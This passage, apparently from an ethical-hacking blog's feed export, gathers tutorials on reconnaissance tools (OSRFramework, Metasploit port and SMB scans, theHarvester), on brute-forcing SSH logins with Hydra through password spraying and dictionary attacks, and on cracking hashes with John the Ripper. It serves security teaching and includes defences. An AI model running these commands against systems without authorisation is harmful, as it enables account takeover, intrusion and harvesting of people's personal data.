<h2 class="wp-block-heading" id="using-usufypy">Using usufy.py<br><a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/4-OSRFramework.html#using-usufypy"></a></h2>


<p><code>usufy.py</code>&nbsp;checks for the existence of a profile for a given user details in different platforms.</p>


<p>Usage: **usufy.py -n&nbsp;-p twitter facebook youtube.**</p>


<p><code>usufy.py -n cehuser us -p twitter facebook youtube</code></p>


<pre class="wp-block-code"><code>+-----------------------------+---------------+------------------+
|         i3visio_uri         | i3visio_alias | i3visio_platform |
+=============================+===============+==================+
| http://twitter.com/us       | us            | Twitter          |
+-----------------------------+---------------+------------------+
| https://www.facebook.com/us | us            | Facebook         |
+-----------------------------+---------------+------------------+
| http://twitter.com/cehuser  | cehuser       | Twitter          |
+-----------------------------+---------------+------------------+
</code></pre>


<p>The&nbsp;<strong>usufy.py</strong>&nbsp;will search the user details in the mentioned platform and will provide you with existence of the user as shown above.</p>


<h2 class="wp-block-heading" id="using-searchfypy">Using searchfy.py<br><a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/4-OSRFramework.html#using-searchfypy"></a></h2>


<p><code>searchfy.py</code>&nbsp;checks with the existing users of pages/handlers for a given details in the all social networks.</p>


<p>Usage:&nbsp;<code>searchfy.py -q &lt;Page Name or Handler Name&gt;</code></p>


<p><code>searchfy.py -q "ECCouncil"</code></p>


<figure class="wp-block-image"></figure>


<p>It will pull out all the user details who are subscribed to targeted social networking pages that are provided.</p>


<h2 class="wp-block-heading" id="osrframework-cli-subcommands">OSRFramework CLI subcommands:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/4-OSRFramework.html#osrframework-cli-subcommands"></a></h2>


<p>Subcommands | Description — | —<br>usufy.py | This tool that verifies if a username exists in 249 social platforms. mailfy.py | This module checks if a username has been registered in up to 22 email providers. searchfy.py | This module looks for profiles using full names and other info in 7 platforms. domainfy.py | This module checks the existence of a given domain in up to 879 different TLD. phonefy.py | This module checks if a phone number has been linked to spam practices in 4 platforms. entify.py | This module looks for regular expressions using 13 patterns.</p>


<h1 class="wp-block-heading" id="information-gathering-using-metasploit">Information Gathering using Metasploit</h1>


<p>The Metasploit Framework is a tool that provides information about secuirty vulnerabilities and aids in penetration testing and IDS signature development.<br><em>Official repository:</em>&nbsp;https://github.com/rapid7/metasploit-framework</p>


<p><strong>Metasploit version: 5.0.59-dev</strong></p>


<p>Metasploit can be used to test the vulnerability of computer systems or to break into remote systems.&nbsp;<strong>This lab will demonstrate extracting information using Metasploit Framework.</strong></p>


<h2 class="wp-block-heading" id="metasploit-overview">Metasploit overview:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/5-Metasploit-Basics.html#metasploit-overview"></a></h2>


<p>Metasploit Framework is an open-source project that facilitates the task of attackers, exploit and payload writers. A major advantage of the framework is the moduler approach, allowing the combination of any exploit with any payload.</p>


<h3 class="wp-block-heading" id="requirements">Requirements:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/5-Metasploit-Basics.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Kali Linux virtual machine.</li>
</ul>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/5-Metasploit-Basics.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>How to identify vulnerabilities and information disclosures.</li>


<li>Extract accurate information about a network. ***</li>
</ul>


<h2 class="wp-block-heading" id="metasploit-setup">Metasploit setup<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/5-Metasploit-Basics.html#metasploit-setup"></a></h2>


<p>Log into&nbsp;<strong>Kali Linux</strong>&nbsp;machine and open a&nbsp;<strong>Terminal</strong>&nbsp;window.</p>


<p>Start PostgreSQL database service to link with Metasploit:</p>


<p><code>service postgresql start</code></p>


<p>Now type&nbsp;<code>msfconsole</code>&nbsp;to launch Metasploit.</p>


<p><code>msfconsole</code></p>


<p>Check if Metasploit is connected to the database successfully:</p>


<p><code>db_status</code></p>


<pre class="wp-block-code"><code>&#91;*] postgresql selected, no connection
</code></pre>


<p>If you got this message, it means that database did not connected to msf properly. To fix this issue, type&nbsp;<code>exit</code>&nbsp;to quit Metasploit. Then, to initiate the database, type:</p>


<p><code>msfdb init</code></p>


<p>Then, restart the postgresql service:</p>


<p><code>service postgresql restart</code></p>


<p>Start Metasploit again and run the&nbsp;<code>db_status</code>&nbsp;to check the database status:</p>


<p><code>msfconsole</code><br><code>db_status</code></p>


<pre class="wp-block-code"><code>&#91;*] Connected to msf. Connection type: postgresql.
</code></pre>


<p>Now the database is connected successfully to the msf.</p>


<h2 class="wp-block-heading" id="find-alive-hosts">Find alive hosts<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/5-Metasploit-Basics.html#find-alive-hosts"></a></h2>


<p>I recommend to boot up a couple VMs in your Lab. In my case I fired up:</p>


<ul class="wp-block-list">
<li>Ubuntu Metasploitable</li>


<li>Windows 7 SP1</li>


<li>Windows Server 2012 R2</li>
</ul>


<p>To scan the subnet, we can use&nbsp;<strong>Nmap</strong>:</p>


<p><code>nmap -O -oX Test 10.0.2.0/24</code></p>


<p>Nmap starts scanning the subnet and showing the results on the screen. The&nbsp;<code>-oX Test</code>&nbsp;Nmap command stands for&nbsp;<strong>output in XML</strong>&nbsp;file called&nbsp;<strong>Test</strong>.</p>


<p>We can import the Nmap results from the database:</p>


<p><code>db_import Test</code></p>


<p>To see the hosts and their details discovered by Nmap type:</p>


<p><code>hosts</code><br>…<br><em>(Check the OS versions, IP and MAC addresses).</em></p>


<p>I will select the Windows Server 2012, that I scanned to check the services running on this system.</p>


<p><code>db_nmap -sS -A 10.0.2.28</code></p>


<p>Nmap starts to footprint the system and list out the OS details.</p>


<p>The&nbsp;<code>db_nmap</code>&nbsp;start the Nmap scan and the results would than be stored automatically in our database.</p>


<p>Type&nbsp;<code>services</code>&nbsp;or&nbsp;<code>db_services</code>&nbsp;to get the whole list of the services running on the host.</p>


<p><code>db_services</code></p>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="scan-for-open-ports-and-services">Scan for open ports and services<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/5-Metasploit-Basics.html#scan-for-open-ports-and-services"></a></h2>


<p>Search for&nbsp;<strong>portscan</strong>&nbsp;modules:</p>


<p><code>search portscan</code></p>


<pre class="wp-block-code"><code>#  Name                                    Disclosure Date  Rank    Check  Description
-  ----                                    ---------------  ----    -----  -----------
0  auxiliary/scanner/http/wordpress_pingback_access         normal  Yes    WordPress Pingback Locator
1  auxiliary/scanner/natpmp/natpmp_portscan                 normal  Yes    NAT-PMP External Port Scanner
2  auxiliary/scanner/portscan/ack                           normal  Yes    TCP ACK Firewall Scanner
3  auxiliary/scanner/portscan/ftpbounce                     normal  Yes    FTP Bounce Port Scanner
4  auxiliary/scanner/portscan/syn                           normal  Yes    TCP SYN Port Scanner
5  auxiliary/scanner/portscan/tcp                           normal  Yes    TCP Port Scanner
6  auxiliary/scanner/portscan/xmas                          normal  Yes    TCP "XMas" Port Scanner
7  auxiliary/scanner/sap/sap_router_portscanner             normal  No     SAPRouter Port Scanner
</code></pre>


<p>Select the&nbsp;<strong>scanner/portscan/syn</strong>:</p>


<p><code>use scanner/portscan/syn</code></p>


<p>Now we need to see the module options:</p>


<p><code>show options</code></p>


<pre class="wp-block-code"><code>Name       Current Setting  Required 
----       ---------------  -------- 
BATCHSIZE  256              yes      
DELAY      0                yes      
INTERFACE                   no       
JITTER     0                yes      
PORTS      1-10000          yes      
RHOSTS                      yes      
SNAPLEN    65535            yes      
THREADS    1                yes      
TIMEOUT    500              yes      
</code></pre>


<p>Set the&nbsp;<code>RHOSTS</code>&nbsp;to the target and&nbsp;<code>THREADS</code>&nbsp;to&nbsp;<code>100</code></p>


<p><code>set RHOSTS 10.0.2.23</code><br><code>set THREADS 100</code></p>


<p>Type&nbsp;<code>run</code>&nbsp;to launch the module.</p>


<pre class="wp-block-code"><code>&#91;+]  TCP OPEN 10.0.2.23:53
&#91;+]  TCP OPEN 10.0.2.23:80
&#91;+]  TCP OPEN 10.0.2.23:88
&#91;+]  TCP OPEN 10.0.2.23:135
&#91;+]  TCP OPEN 10.0.2.23:139
&#91;+]  TCP OPEN 10.0.2.23:389
&#91;+]  TCP OPEN 10.0.2.23:443
&#91;+]  TCP OPEN 10.0.2.23:445
&#91;+]  TCP OPEN 10.0.2.23:464
&#91;+]  TCP OPEN 10.0.2.23:593
&#91;+]  TCP OPEN 10.0.2.23:636
...
</code></pre>


<p>This module will enumerate every open TCP services using a raw SYN scan.</p>


<p>Next scan, let’s find out the SMB version.<br>Load the&nbsp;<strong>scanner/smb/smb_version</strong>&nbsp;module:</p>


<p><code>use scanner/smb/smb_version</code></p>


<p>Type&nbsp;<code>show options</code>&nbsp;to see the configuration.</p>


<p>Set the&nbsp;<code>RHOSTS</code>&nbsp;to the target and&nbsp;<code>THREADS</code>&nbsp;to&nbsp;<code>100</code></p>


<p><code>set RHOSTS 10.0.2.23</code><br><code>set THREADS 100</code></p>


<p>Type&nbsp;<code>run</code>&nbsp;to launch the module.</p>


<p>Now type&nbsp;<code>hosts</code>&nbsp;and observe the field&nbsp;<strong>os_flavor</strong>&nbsp;of the host you scanned in the subnet.</p>


<p>Conclusion:<br>You can collect different error messages to learn the vulnerabilities, and note the information disclosed about the network.</p>


<h1 class="wp-block-heading" id="information-gathering-using-theharvester">Information Gathering using theHarvester</h1>


<p>theHarvester is used to gather open source intelligence (OSINT) on a company or domain. theHarvester gathers emails, subdomains, hosts, employee names, open ports and banners from different public sources like search engines, PGP key servers and SHODAN computer database.</p>


<p><em>Official repository:</em>&nbsp;https://github.com/laramies/theHarvester</p>


<h2 class="wp-block-heading" id="overview-of-theharvester">Overview of theHarvester<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/6-theHarvester.html#overview-of-theharvester"></a></h2>


<p>Has been developed in Python by Christian Martorella. It’s a very helpful tool in the early stages of penetration test. Help to undestand the customer footprint on the internet. Some professionals also use theHarvester to review the information available to an attacker through the internet.</p>


<h3 class="wp-block-heading" id="requirements">Requirements:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/6-theHarvester.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Kali Linux virtual machine.</li>
</ul>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/6-theHarvester.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Demonstrate how to identify vulnerabilities and information disclosures in search engines using theHarvester.</li>


<li>Extract email, subdomain names, virtual hosts(…) from the web sites. ***</li>
</ul>


<h2 class="wp-block-heading" id="run-theharvester-against-a-target">Run theHarvester against a target<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/6-theHarvester.html#run-theharvester-against-a-target"></a></h2>


<p>To view all the commands option, type:</p>


<p><code>theHarvester -h</code></p>


<p>Let’s perform a full harvest on this target:</p>


<p><code>theHarvester -d certifiedhacker.com -l 300 -b all</code></p>


<p>On the&nbsp;<code>help</code>&nbsp;command you can see the meaning of these options, like&nbsp;<code>-d</code>&nbsp;stands for domain, and&nbsp;<code>-l</code>&nbsp;for limit the number of search results, and&nbsp;<code>-b</code>&nbsp;is the search engine/source.</p>


<p>theHarvester may return too much information to go through, for better readability, you can write the output to an HTML file:</p>


<p><code>theHarvester -d certifiedhacker.com -l 300 -b all -f report</code></p>


<p>The file will be exported in your home folder in Kali Machine.</p>


<p>Note: If you having trouble to export the HTML file, keep in mind it’s a huge amount of information being collected, you can reduce the search engines/sources, instead to use them all at once.</p>


<h1 class="wp-block-heading" id="another-tools-for-recon">Another tools for Recon</h1>


<p>Sublist3r is a python tool designed to enumerate subdomains of websites using OSINT.</p>


<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://github.com/aboul3la/Sublist3r
</div></figure>


<p>Log into your Kali machine and open the terminal</p>


<p>Type this command to update the Kali rolling packages and install sublist3r:</p>


<p><code>sudo apt update &amp;&amp; apt -y install sublist3r</code></p>


<p>Type&nbsp;<code>sublist3r -h</code>&nbsp;for print an overview of all options that are available.</p>


<blockquote class="wp-block-quote is-layout-flow wp-block-quote-is-layout-flow">
<p>To search subdomains, type:<br><code>sublist3r -d google.com -t 3 -e bing</code><br><code>-d</code>&nbsp;= target domain<br><code>-t</code>&nbsp;= number of threads<br><code>-e</code>&nbsp;= search engine</p>
</blockquote>


<p>You also can find in which subdomain port 80 is open in&nbsp;<code>google.com</code>&nbsp;for example.</p>


<p><code>sublist3r -d google.com -p 80 -e bing</code></p>


<h1 class="wp-block-heading" id="web-data-extractor">Web Data Extractor</h1>


<p>Web Data Extractor is used to extract a targeted company’s contact details or data such as emails, fax, phone through web for responsible b2b communication.</p>


<p>This tool is exclusive for Windows, very easy to use.<br>Downside: trial version export only 10 lines of report.<br>http://www.webextractor.com/</p>


<h1 class="wp-block-heading" id="httrack">HTTrack</h1>


<p>Web site copier is an offline browser utility that downloads a Web site to a local directory.</p>


<p>This application is available in GUI and CLI.</p>


<p>Works on Linux/OSX/BSD/Unix, Windows and Android.<br>https://www.httrack.com/</p>


<h1 class="wp-block-heading" id="tracing-emails">Tracing Emails</h1>


<p>Tracing emails involves analyzing the&nbsp;<strong>email header</strong>&nbsp;to discover details about the sender. Email tracking is useful for identifying the company and network providing service for the address.</p>


<p><strong>eMailTrackerPro</strong>&nbsp;is a tool to track, detect abnormalities in the email header.<br>http://www.emailtrackerpro.com/</p>


<h1 class="wp-block-heading" id="gathering-ip-and-domain-name-info-using-whois-lookup">Gathering IP and Domain Name info. using Whois Lookup</h1>


<p>Whois lookup reveals available information on a hostname, IP address or domain.</p>


<ul class="wp-block-list">
<li>For Windows: <a href="https://smartwhois.en.softonic.com/"><strong>SmartWhois</strong></a></li>


<li>Kali Linux: <a href="https://www.cyberpratibha.com/blog/using-whois-a-command-for-information-gathering/"><strong>whois command</strong></a></li>
</ul>


<h1 class="wp-block-heading" id="advanced-network-route-tracing-using-path-analyzer-pro">Advanced Network Route Tracing using Path Analyzer Pro</h1>


<p>Path Analyzer Pro delivers advanced network route tracing with performance tests, DNS, whois, and network resolution to investigate network issues.</p>


<p>Works on Linux/Mac/Windows.<br>Paid application with 10-day trial version.<br>https://www.pathanalyzer.com/</p>


<h1 class="wp-block-heading" id="automated-fingerprinting-using-foca">Automated Fingerprinting using FOCA</h1>


<p>Fingerprinting Organizations with Collected Archives (FOCA) is a tool that reveals metadata and shrouded data. These archives may be on site pages, and can be downloaded and dissected with FOCA.<br><em>Official repository:</em>&nbsp;https://github.com/ElevenPaths/FOCA</p>


<p>Features:</p>


<ul class="wp-block-list">
<li>Metadata Extraction</li>


<li>Network Analysis</li>


<li>DNS Snooping</li>


<li>Search for common files</li>


<li>Juicy Files</li>


<li>Proxies Search</li>


<li>Technologies Identification</li>


<li>Fingerprinting</li>


<li>Leaks</li>


<li>Backups Search</li>


<li>Error Forcing</li>


<li>Open Directories Search</li>
</ul>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>How to Use Hydra  to Crack Passwords – Penetration Testing.</title>
		<link>../../../2024/11/15/how-to-use-hydra-to-crack-passwords-penetration-testing/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Fri, 15 Nov 2024 21:12:37 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<category><![CDATA[SQL, Botnets and XSS Attacks Tools and Resources]]></category>
		<guid isPermaLink="false">../../../index.html?p=8835</guid>

					<description><![CDATA[Hydra is a brute-forcing tool that helps penetration testers and ethical hackers crack the passwords of network services. Hydra can perform rapid dictionary attacks against more than 50 protocols. This....]]></description>
										<content:encoded><![CDATA[
<h3 class="wp-block-heading">Hydra is a brute-forcing tool that helps penetration testers and ethical hackers crack the passwords of network services.</h3>


<p>Hydra can perform rapid dictionary attacks against more than 50 protocols. This includes telnet, FTP, HTTP, HTTPS, SMB, databases, and several other services.</p>


<p>Hydra was developed by the hacker group “<a href="https://www.thc.org/" target="_blank" rel="noreferrer noopener">The Hacker’s Choice</a>”. Hydra was first released in 2000 as a proof of concept tool that demonstrated how you can perform attacks on network logon services.</p>


<p>Hydra is also a parallelized login cracker. This means you can have more than one connection in parallel. Unlike in sequential brute-forcing, this reduces the time required to crack a password.</p>


<p>Previously, I explained another brute-force tool called&nbsp;<a href="https://stealthsecurity.io/cracking-passwords-using-john-the-ripper-977943d7ab38" target="_blank" rel="noreferrer noopener">John the Ripper</a>. Though John and Hydra are brute-force tools, John works offline while Hydra works online.</p>


<p>In this article, we will look at how Hydra works followed by a few real-world use cases.</p>


<blockquote class="wp-block-quote is-layout-flow wp-block-quote-is-layout-flow">
<p><em>Note: All my articles are for educational purposes. If you use it illegally and get into trouble, I am not responsible. Always get permission from the owner before scanning / brute-forcing / exploiting a system.</em></p>
</blockquote>


<h1 class="wp-block-heading" id="heading-how-to-install-hydra">How to Install Hydra</h1>


<p>Hydra comes pre-installed with Kali Linux and Parrot OS. So if you are using one of them, you can start working with Hydra right away.</p>


<p>On Ubuntu, you can use the apt package manager to install it:</p>


<pre class="wp-block-code"><code>$ apt install hydra
</code></pre>


<p>In Mac, you can find Hydra under Homebrew:</p>


<pre class="wp-block-code"><code>$ brew install hydra
</code></pre>


<p>If you are using Windows, I would recommend using a virtual box and installing Linux. Personally, I don&#8217;t recommend using Windows if you want to be a professional penetration tester.</p>


<h1 class="wp-block-heading" id="heading-how-to-work-with-hydra">How to Work with Hydra</h1>


<p>Let’s look at how to work with Hydra. We will go through the common formats and options that Hydra provides for brute-forcing usernames and passwords. This includes single username/password attacks, password spraying, and dictionary attacks.</p>


<p>If you have installed Hydra, you can start with the help command like this:</p>


<pre class="wp-block-code"><code>$ hydra -h
</code></pre>


<p>This will give you the list of flags and options that you can use as a reference when working with Hydra.</p>


<p><em>Hydra help command</em></p>


<h2 class="wp-block-heading" id="heading-how-to-perform-a-single-usernamepassword-attack-with-hydra"><strong>How to Perform a Single Username/Password Attack with Hydra</strong></h2>


<p>Let’s start with a simple attack. If we have the username and password that we expect a system to have, we can use Hydra to test it.</p>


<p>Here is the syntax:</p>


<pre class="wp-block-code"><code>$ hydra -l &lt;username&gt; -p &lt;password&gt; &lt;server&gt; &lt;service&gt;
</code></pre>


<p>Let’s assume we have a user named “molly” with a password of “butterfly” hosted at 10.10.137.76. Here is how we can use Hydra to test the credentials for SSH:</p>


<pre class="wp-block-code"><code>$ hydra -l molly -p butterfly 10.10.137.76 ssh
</code></pre>


<p>If it works, here is what the result will look like:</p>


<p><em>Hydra single username and password</em></p>


<h2 class="wp-block-heading" id="heading-how-to-perform-a-password-spraying-attack-with-hydra"><strong>How to Perform a Password Spraying Attack with Hydra</strong></h2>


<p>What if we know a password that someone is using, but we are not sure who it is? We can use a password spray attack to determine the username.</p>


<p>A password spray attack is where we use a single password and run it against a number of users. If someone is using the password, Hydra will find the match for us.</p>


<p>This attack assumes we know a list of users in the system. For this example, we will create a file called users.txt with the following users:</p>


<pre class="wp-block-code"><code>root
admin
user
molly
steve
richard
</code></pre>


<p>Now we are going to test who has the password “butterfly”. Here is how we can run a password spray attack using Hydra.</p>


<pre class="wp-block-code"><code>$ hydra -L users.txt -p butterfly 10.10.137.76 ssh
</code></pre>


<p>We will get a similar result to the following output if any of the users match with the given password. You should also notice that we have used the flag -L instead of -l. -l is for a single username and -L is for a list of usernames.</p>


<p><em>Hydra password spraying</em></p>


<h2 class="wp-block-heading" id="heading-how-to-perform-a-dictionary-attack-with-hydra"><strong>How to Perform a Dictionary Attack with Hydra</strong></h2>


<p>Let’s look at how to perform a dictionary attack. In real-world scenarios, this is what we will be using Hydra regularly for.</p>


<p>A dictionary attack is where we have single/multiple usernames and we provide a password wordlist to Hydra. Hydra then tests all these passwords against every user in the list.</p>


<p>I am going to use the&nbsp;<a href="https://github.com/teamstealthsec/wordlists" target="_blank" rel="noreferrer noopener">Rockyou wordlist</a>&nbsp;for this example along with the users.txt file we created in the previous attack. If you are using Kali Linux, you can find the RockYou wordlist under /usr/share/wordlists/rockyou.txt.</p>


<p>Here is the command for a dictionary attack:</p>


<pre class="wp-block-code"><code>$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 1010.137.76 ssh
</code></pre>


<p>If this attack is successful, we will see a similar result to the other two commands. Hydra will highlight the successful username/password combinations in green for all the matches.</p>


<h2 class="wp-block-heading" id="heading-how-to-use-the-verbosity-and-debugging-flags-in-hydra"><strong>How to Use the Verbosity and Debugging Flags in Hydra</strong></h2>


<p>Hydra can be awfully quiet when running large brute-force attacks. If we have to make sure Hydra is doing what it is expected to do, there are two flags we can use.</p>


<p>The verbosity (-v) flag will show us the login attempt for each username/password combination. This can be a bit much when there are a lot of combinations to go through, but if it is something you need, we can use the verbosity flag.</p>


<p>Here is a sample result. We can see that Hydra prints information about failed attempts in addition to the successful matches.</p>


<p><em>Hydra verbose mode</em></p>


<p>We can also use the debug (-d) flag to gather even more information. Here is the same result when using the debug flag:</p>


<p><em>Hydra debug mode</em></p>


<p>We can see that Hydra prints way more information than we need. We will only use debug mode rarely, but it is good to know that we have the option to watch every action Hydra takes when brute-forcing a service.</p>


<h2 class="wp-block-heading" id="heading-how-to-save-your-results-in-hydra"><strong>How to Save Your Results in Hydra</strong></h2>


<p>Let&#8217;s look at how to save results. There is no point in spending hours cracking a password and losing it due to a system crash.</p>


<p>We can use the -o flag and specify a file name to save the result. Here is the syntax.</p>


<pre class="wp-block-code"><code>$ hydra -l &lt;username&gt; -p &lt;password&gt; &lt;ip&gt; &lt;service&gt; -o &lt;file.txt&gt;
</code></pre>


<h3 class="wp-block-heading" id="heading-more-flags-and-formats">More flags and formats</h3>


<p>Hydra also offers a few additional flags and formats that will be useful for us as pen testers. Here are a few:</p>


<h4 class="wp-block-heading" id="heading-service-specification">Service specification</h4>


<p>Instead of specifying the service separately, we can use it with the IP address. For example, to brute force SSH, we can use the following command:</p>


<pre class="wp-block-code"><code>$ hydra -l &lt;username&gt; -p &lt;password&gt; ssh://&lt;ip&gt;
</code></pre>


<h4 class="wp-block-heading" id="heading-how-to-resume-attacks">How to resume attacks</h4>


<p>If Hydra’s session exits when an attack is in progress, we can resume the attack using the -R flag instead of starting from scratch.</p>


<pre class="wp-block-code"><code>$ hydra -R
</code></pre>


<h4 class="wp-block-heading" id="heading-how-to-use-custom-ports">How to use custom ports</h4>


<p>Sometimes system administrators will change the default ports for service. For example, FTP can run in port 3000 instead of its default port 21. In those cases, we can specify ports using the -s flag.</p>


<pre class="wp-block-code"><code>$ hydra -l &lt;username&gt; -p &lt;password&gt; &lt;ip&gt; &lt;service&gt; -s &lt;port&gt;
</code></pre>


<h4 class="wp-block-heading" id="heading-how-to-attack-multiple-hosts">How to attack multiple hosts</h4>


<p>What if we have multiple hosts to attack? Easy, we can use the -M flag. The files.txt will contain a list of IP addresses or hosts instead of a single IP address.</p>


<pre class="wp-block-code"><code>$ hydra -l &lt;username&gt; -p &lt;password&gt; -M &lt;host_file.txt&gt; &lt;service&gt;
</code></pre>


<h4 class="wp-block-heading" id="heading-targeted-combinations">Targeted combinations</h4>


<p>If we have a list of usernames and passwords, we can implement a dictionary attack. But if we have more information on which usernames are likely to have a set of passwords, we can prepare a custom list for Hydra.</p>


<p>For example, we can create a list of usernames and passwords separated by semicolons like the one below.</p>


<pre class="wp-block-code"><code>username1:password1
username2:password2
username3:password3
</code></pre>


<p>We can then use the -C flag to tell Hydra to run these specific combinations instead of looping through all the users and passwords. This drastically reduces the time taken to complete a brute-force attack.</p>


<p>Here is the syntax.</p>


<pre class="wp-block-code"><code>$ hydra -C &lt;combinations.txt&gt; &lt;ip&gt; &lt;service&gt;
</code></pre>


<p>We have seen how to work with Hydra in detail. Now you should be ready to perform real-world audits of network services like FTP, SSH, and Telnet.</p>


<p>But as a pen-tester, it is important to understand how to defend against these attacks. Remember, we are the good actors .</p>


<h1 class="wp-block-heading" id="heading-how-to-defend-against-hydra">How to Defend Against Hydra</h1>


<p>The clear solution to help you defend against brute-force attacks is to set strong passwords. The stronger a password is, the harder it is to apply brute-force techniques.</p>


<p>We can also enforce password policies to change passwords every few weeks. Unfortunately, many individuals and businesses use the same passwords for years. This makes them easy targets for brute-force attacks.</p>


<p>Another way to prevent network-based brute-forcing is to limit authorization attempts. Brute-force attacks do not work if we lock accounts after a few failed login attempts. This is common in apps like Google and Facebook that lock your account if you fail a few login attempts.</p>


<p>Finally, tools like re-captcha can be a great way to prevent brute-force attacks. Automation tools like Hydra cannot solve captchas like a real human being.</p>


<h1 class="wp-block-heading" id="heading-summary">Summary</h1>


<p>Hydra is a fast and flexible network brute-forcing tool to attack services like SSH, and FTP. With a modular architecture and support for parallelization, Hydra can be extended to include new protocols and services easily.</p>


<p>Hydra is undoubtedly a powerful tool to have in your pen-testing toolkit.</p>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Cracking Passwords with John the Ripper: A Comprehensive Guide </title>
		<link>../../../2024/11/15/cracking-passwords-with-john-the-ripper-a-comprehensive-guide/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Fri, 15 Nov 2024 20:43:26 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<guid isPermaLink="false">../../../index.html?p=8803</guid>

					<description><![CDATA[Passwords are often the weakest link in cybersecurity, and cracking them can provide invaluable insights into security vulnerabilities. John the Ripper is a powerful tool that helps security professionals and....]]></description>
										<content:encoded><![CDATA[
<h1 class="wp-block-heading" id="c6d1"></h1>


<p id="b64f"><strong>Passwords are often the weakest link in cybersecurity, and cracking them can provide invaluable insights into security vulnerabilities</strong>. John the Ripper is a powerful tool that helps security professionals and ethical hackers uncover weak passwords and strengthen system defenses.</p>


<h1 class="wp-block-heading" id="2a01">What is John the Ripper?</h1>


<p id="94d1">John the Ripper, often referred to simply as “John,” is an open-source password cracking tool. It is widely used by penetration testers and security researchers to identify weak passwords and improve security practices.</p>


<figure class="wp-block-image"></figure>


<h1 class="wp-block-heading" id="fb4a">Setting Up John the Ripper</h1>


<p id="f855">To get started with John the Ripper:</p>


<ol class="wp-block-list">
<li><strong>Download and Install</strong>: Visit the <a href="https://www.openwall.com/john/" target="_blank" rel="noreferrer noopener">John the Ripper website</a> to download the tool for your operating system and follow the installation instructions.</li>


<li><strong>Basic Commands</strong>: Once installed, open your terminal or command prompt and run <code>john</code> to see a list of basic commands and options.</li>
</ol>


<h1 class="wp-block-heading" id="83d6">Key Features of John the Ripper</h1>


<ul class="wp-block-list">
<li><strong>Password Hash Formats</strong>: John the Ripper supports a wide range of password hash formats, including MD5, SHA-1, NTLM, and more.</li>


<li><strong>Wordlist Attacks</strong>: Perform dictionary-based attacks using pre-defined or custom wordlists.</li>


<li><strong>Brute Force Attacks</strong>: Conduct exhaustive brute force attacks to crack passwords.</li>


<li><strong>Rule-Based Attacks</strong>: Enhance wordlist attacks with customizable rules to modify and extend wordlist entries.</li>


<li><strong>Incremental Mode</strong>: Use incremental mode for a comprehensive, exhaustive password cracking approach.</li>
</ul>


<h1 class="wp-block-heading" id="a21d">Basic Workflow for Using John the Ripper</h1>


<h2 class="wp-block-heading" id="3c6f">Preparing the Environment</h2>


<ul class="wp-block-list">
<li><strong>Gathering Hashes</strong>: Collect password hashes from target systems. This can be done through various means such as extracting from database dumps or system files.</li>


<li><strong>Format Conversion</strong>: Ensure that the password hashes are in a format supported by John the Ripper. Use tools like <code>unshadow</code> for Unix passwords or <code>samdump2</code> for Windows passwords.</li>
</ul>


<h2 class="wp-block-heading" id="477d">Running a Wordlist Attack</h2>


<p id="f2f6"><strong>Using Default Wordlists</strong>: John the Ripper comes with a default wordlist. Use the following command to run a basic wordlist attack:</p>


<pre class="wp-block-preformatted">john --wordlist=password.lst &lt;hashfile&gt;</pre>


<p id="36a1"><strong>Custom Wordlists</strong>: Create or download custom wordlists for more targeted attacks. Run the attack with your custom wordlist:</p>


<pre class="wp-block-preformatted">john --wordlist=mywordlist.txt &lt;hashfile&gt;</pre>


<h2 class="wp-block-heading" id="1fb5">Performing a Brute Force Attack</h2>


<p id="9698"><strong>Setting Up</strong>: Configure John the Ripper for a brute force attack. Use the following command:</p>


<pre class="wp-block-preformatted">john --incremental &lt;hashfile&gt;</pre>


<p id="d42e"><strong>Running the Attack</strong>: John will attempt all possible combinations of characters to crack the password.</p>


<h2 class="wp-block-heading" id="e9d3">Rule-Based Attacks</h2>


<p id="5bd7"><strong>Using Built-in Rules</strong>: Use built-in rules to modify wordlist entries and enhance the attack:</p>


<pre class="wp-block-preformatted">john --wordlist=password.lst --rules &lt;hashfile&gt;</pre>


<p id="211e"><strong>Creating Custom Rules</strong>: Edit the&nbsp;<code>john.conf</code>&nbsp;file to create custom rules for more sophisticated attacks.</p>


<h2 class="wp-block-heading" id="e413">Using Incremental Mode</h2>


<p id="dd62"><strong>Configuring Incremental Mode</strong>: Use incremental mode for exhaustive password cracking. Run the command:</p>


